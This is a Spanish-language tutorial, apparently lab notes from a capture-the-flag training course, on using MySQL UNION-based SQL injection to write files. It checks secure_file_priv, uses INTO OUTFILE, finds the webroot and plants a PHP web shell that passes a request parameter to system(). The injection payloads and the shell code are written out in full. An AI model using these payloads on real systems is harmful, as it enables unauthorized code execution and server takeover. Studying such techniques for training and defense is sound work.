





# Writing Files

Cuando hablamos de editar arcchivos para el back-end server, se vuelve muy restringido en DBMSes modernas, desde que se pueden utilizar para escribir web shell sobre el servidor remoto, para haci conseguir ejecucion de codigo y consegir el control del servidor, es por eso que las DBMS modernas tienen deshabilitado el "file-write" por default ademas requiere ciertos privilegios. Antes de editar archivos, primero debemos asegurarnos de los privilegios y si la DMBS permite escribir archivos.

## Write Privileges

Para habilitar editar archivos en el back-end server usando MySQL, requerimos tres cosas:

1. Un usuario con los privilegios **"FILE"** habilitados
2. La variable **"secure_file_global"** no habilitada
3. Acceso de escritura a la ubicación en la que queremos escribir en el servidor back-end

Tenemos que nuestro usuario tiene los privilegios **FILE** necesario para editar archivos, ahora tenemos que asegurarnos si MySQL database cuenta con esos privilefios, para esto podemos usar **secure_file_priv**

## secure_file_priv

La variable **secure_file_priv** es usada para determinar desde donde leer/escribir archivos, un valor vacio nos permite leer archivos de todo el sistema de archivos. De lo contrario si se establece un directorio determinado, solo podremos leer desde la carpeta especificada por la variable. Por otro lado, **NULL** significa que no podemos leer/escribir archivos de ningun directorio. MariaDB tiene esta variable vacia por default, lo que nos permite leer/escribir en cualquier archivo si el usuario tiene el privilegio **FILE**. Sin embargo, MySQL usa **/var/lib/mysql-files** como la carpeta predeterminada. Esto significa que no es posible leer archivos a través de ninguna inyeccion MySQL con la configuracion preterminada. Peor aun, algunas configuraciones modernas tienen como valor predeterminado **NULL**, lo que significa que no podemos lee/escribir archivos en ningna parte del sistema.

vamos a ver como encontramos el valor de **secure_file_priv**, dentro de MySQL por lo cual usaremos la siguiente solicitud.

```
SHOW VARIABLES LIKE 'secure_file_priv';
```

Sin embargo, como estamos usando una inyección **UNION**, tenemos que obtener el valor usando una declaración **SELECT**. Esto no debería ser un problema, ya que todas las variables y la mayoría de las configuraciones se almacenan dentro de la base de datos **INFORMATION_SCHEMA**. Las variables globales de MySQL se almacenan en una tabla llamada **global_variables** y, según la documentación, esta tabla tiene dos columnas **variable_name** y **variable_value.**

Tenemos que seleccionar estas dos columnas de esa tabla en la base de datos **INFORMATION_SCHEMA**. Hay cientos de variables globales en una configuración MySQL y no queremos recuperarlas todas. Luego filtraremos los resultados para mostrar solo la variable **secure_file_priv**, usando la cláusula **WHERE** que aprendimos en una sección anterior.

La consulta SQL final es la siguiente:

```
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

De manera similar a otras consultas de inyección UNION, podemos obtener el resultado de la consulta anterior con la siguiente carga útil. Recuerde agregar dos columnas más, 1 y 4, como datos basura para tener un total de 4 columnas:

```
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```



Y el resultado muestra que el valor secure_file_priv está vacío, lo que significa que podemos leer/escribir archivos en cualquier ubicación.

## SELECT INTO OUTFILE

Ahora que hemos confirmado que nuestro usuario debe escribir archivos en el servidor back-end, intentemos hacerlo mediante la declaración **SELECT .. INTO OUTFILE**. La declaración **SELECT INTO OUTFILE** se puede utilizar para escribir datos de consultas de selección en archivos. Esto se suele utilizar para exportar datos de tablas.

Para utilizarla, podemos añadir **INTO OUTFILE '...'** después de nuestra consulta para exportar los resultados al archivo que especificamos. El siguiente ejemplo guarda la salida de la tabla de **users** en el archivo **/tmp/credentials**:

```
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

Si vamos al servidor back-end y cat el archivo, vemos el contenido de esa tabla: 

```
H4wker@htb[/htb]$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

También es posible directamente **SELECT** cadenas en archivos, lo que nos permite escribir archivos arbitrarios en el servidor back-end. 

```
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

```
H4wker@htb[/htb]$ cat /tmp/test.txt 

this is a test
```

Consejo: Las exportaciones de archivos avanzadas utilizan la función 'FROM_BASE64("base64_data")' para poder escribir archivos largos/avanzados, incluidos datos binarios. 

## Writing Files through SQL Injection

Intentemos escribir un archivo de texto en webroot y verificar si tenemos permisos de escritura. La siguiente consulta debe escribir **file written successfully!** hacia **/var/www/html/proof.txt** archivo, al que luego podremos acceder en la aplicación web: 

```
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

**Nota:** Para escribir un shell web, debemos conocer el directorio web base del servidor web (es decir, la raíz web). Una forma de encontrarlo es usar load_file para leer la configuración del servidor, como la configuración de Apache que se encuentra en **/etc/apache2/apache2.conf**, la configuración de Nginx en **/etc/nginx/nginx.conf**, o configuración de IIS en **%WinDir%\System32\Inetsrv\Config\ApplicationHost.config**, o podemos buscar en línea otras posibles ubicaciones de configuración. Además, podemos ejecutar un análisis difuso e intentar escribir archivos en diferentes raíces web posibles, utilizando [esta lista de palabras para Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) o [esta lista de palabras para Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt) . Finalmente, si nada de lo anterior funciona, podemos utilizar los errores del servidor que se nos muestran e intentar encontrar el directorio web de esa manera. 

La injeccion UNION seria la siguiente:

```
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```



No vemos ningún error en la página, lo que indica que la consulta se realizó correctamente. Comprobando el archivo <font color="green">proof.txt</font> en webroot, vemos que efectivamente existe: 



Nota: Vemos la cadena que arrojamos junto con '1', '3' antes y '4' después. Esto se debe a que todo el resultado de la consulta 'UNION' se escribió en el archivo. Para que la salida sea más limpia, podemos usar "" en lugar de números. 

## Writing a Web Shell

Habiendo confirmado los permisos de escritura, podemos continuar y escribir un shell web PHP en la carpeta webroot. Podemos escribir el siguiente webshell PHP para poder ejecutar comandos directamente en el servidor back-end: 

```
<?php system($_REQUEST[0]); ?>
```

```
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```




Una vez más, no vemos ningún error, lo que significa que la escritura del archivo probablemente funcionó. Esto se puede verificar navegando hasta el <font color="green">/shell.php</font>  archivo y ejecutar comandos a través del <font color="green">0</font> parámetro, con <font color="green">?0=id</font> en nuestra URL: 



La salida del id El comando confirma que tenemos ejecución de código y que estamos ejecutando como www-data usuario. 

## Reto

Encuentra la bandera usando una webshell.

